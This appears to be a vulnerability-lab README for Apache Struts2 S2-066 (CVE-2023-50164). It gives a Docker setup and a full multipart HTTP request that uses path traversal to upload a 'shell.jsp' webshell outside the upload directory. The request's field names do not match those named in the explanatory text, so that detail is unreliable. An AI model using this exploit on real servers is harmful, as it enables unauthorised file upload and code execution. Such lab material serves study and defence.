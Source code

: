 # Struts2 S2-066 Path Traversal Vulnerability (CVE-2023-50164)

Apache Struts2 is a popular open-source web application framework for developing Java EE web applications. It uses and extends the Java Servlet API to encourage developers to adopt a model–view–controller (MVC) architecture. The framework provides developers with a rich set of tags and utilities to create enterprise-ready web applications that are easy to maintain and extend.

[中文版本(Chinese version)](README.zh-cn.md)

Apache Struts2 S2-066 is a path traversal vulnerability that exists in the file upload functionality. The vulnerability allows attackers to upload files outside the intended upload directory by manipulating the form field name case.

In Struts2's file upload processing, the framework normally only retains the basename of uploaded files to prevent path traversal. However, due to a logic flaw in the processing, attackers can bypass this protection by:

1. Using a form field with an uppercase first letter (e.g., "Upload" instead of "upload")
2. Providing a separate form field with the desired path traversal filename

This allows the unprocessed filename to override the basename protection, resulting in successful path traversal.

References:

- <https://cwiki.apache.org/confluence/display/WW/s2-066>
- <https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/>

## Environment Setup

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080` to access the application, which is a simple file upload page.

## Exploitation Steps

First, try to upload a JSP script to the normal upload directory:

![Normal Upload](1.png)

Although the file is uploaded successfully, the JSP script cannot be executed in the upload directory due to server configuration:

![Execution Failed](2.png)

Exploit the S2-066 vulnerability to upload the file outside the `upload/` directory using the following request:

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 331

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="File"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

Note the key elements in the exploit:

- The form field name is "Upload" (first letter uppercase)
- A separate "uploadFileName" field contains the path traversal "../shell.jsp"

![Successful Upload](3.png)

The JSP file is now uploaded outside the restricted upload directory and can be executed:

![Webshell Execution](4.png)

You can now access the webshell at `http://your-ip:8080/shell.jsp`.
